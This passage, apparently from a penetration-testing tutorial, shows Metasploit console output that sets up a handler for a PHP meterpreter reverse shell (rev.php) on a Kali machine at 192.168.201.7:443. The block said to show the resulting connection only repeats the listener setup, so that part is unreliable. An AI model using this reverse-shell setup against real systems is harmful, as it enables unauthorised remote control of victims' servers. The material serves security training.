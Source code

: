 <p style="text-align:justify;">
Then we will run the script above and the listener will be ready to accept connections as shown below
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>/home/kali/Desktop</b></span># msfconsole -q -r handler.rc
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set LHOST 192.168.201.7
LHOST => 192.168.201.7
resource (handler.rc)> set LPORT 443
LPORT => 443
resource (handler.rc)> set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
resource (handler.rc)> set ExitOnSession false
ExitOnSession => false
resource (handler.rc)> exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.201.7:443
msf6 exploit(multi/handler) >
</pre>

<p style="text-align:justify;">
After executing the <code  style="background-color: lightgrey; color:black;">rev.php</code> shell we will have a reverse tcp connection as follows 
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>/home/kali/Desktop</b></span># msfconsole -q -r handler.rc
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set LHOST 192.168.201.7
LHOST => 192.168.201.7
resource (handler.rc)> set LPORT 443
LPORT => 443
resource (handler.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (handler.rc)> set ExitOnSession false
ExitOnSession => false
resource (handler.rc)> exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
